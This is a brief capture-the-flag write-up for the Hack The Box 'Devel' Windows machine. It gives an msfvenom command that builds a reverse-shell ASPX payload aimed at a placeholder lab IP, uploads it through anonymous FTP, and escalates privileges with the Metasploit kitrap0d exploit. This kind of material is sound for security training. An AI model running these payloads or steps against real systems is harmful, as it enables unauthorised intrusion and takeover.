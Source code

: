 # Devel - Machine

10.10.10.5 Easy Windows 

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- ftp
- Metasploit

## Enumeration

- Nmap shows port 21 and 80 is open.

## Exploitation

- FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
- Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

- Used `local_exploit_suggester` module for this.
- After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
